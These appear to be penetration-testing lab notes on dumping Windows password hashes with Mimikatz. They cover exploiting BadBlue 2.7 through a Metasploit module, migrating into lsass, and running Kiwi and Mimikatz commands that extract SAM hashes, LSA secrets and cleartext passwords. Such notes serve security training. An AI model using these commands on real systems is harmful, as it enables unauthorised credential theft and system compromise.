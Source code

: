 # Dumping Hashes With Mimikatz

## Mimikatz

* Mimikatz is a Windows post-exploitation tool written by Benjamin Delply (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
* The SAM (Security Accounts anager) database, is a database file on a Windows systems that stores hashed user passwords.
* Mimikatz can be used to extract hashes from the lsass.exe process memmory where hashes are cached.
* We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.

NOTe: Mimikatz will require elevated privileges in order to run correctly.

## Practical Demo

Enumerate the target

In this case the target is running <mark style="color:red;">BadBlue 2.7</mark> on port 80

### MSF Module

* <mark style="color:yellow;">exploit/windows/http/badblue\_passthru</mark>

Set RHOSTS and payload options

We now have 32 bit meterpreter session as the  Administrator

Migrate to the <mark style="color:red;">lsass</mark> process to get NT AUTHORITY\SYSTEM privileges:

* <mark style="color:yellow;">pgrep lsass</mark>
* <mark style="color:yellow;">migrate PID</mark>

#### Load Kiwi module:

* <mark style="color:yellow;">load kiwi</mark>

#### Help command:

* <mark style="color:yellow;">?</mark>

#### Dump all credentials:

* <mark style="color:yellow;">creds\_all</mark>

#### Dump NTLM Hashes:

* <mark style="color:yellow;">lsa\_dump\_sam</mark>

Dump LSA Secrets

* <mark style="color:yellow;">lsa\_dump\_secrets</mark>

### Using Mimikatz

Navigate to the Temp directory in the target

Upload the Mimikatz executable:

* <mark style="color:yellow;">upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe</mark>

#### Start mimikatz:

* <mark style="color:yellow;">.\mimikatz.exe</mark>

#### Check if you have privilege to extract hashes from memory:

* <mark style="color:yellow;">privilege::debug</mark>

#### Dump SAM database

* <mark style="color:yellow;">lsadump::sam</mark>

#### Dump lsa secrets:

* <mark style="color:yellow;">lsadump::secrets</mark>

If windows is configured to store <mark style="color:red;">logonpasswords</mark> in memory in cleartext, we can dump them:

* <mark style="color:yellow;">sekurlsa::passwords</mark>
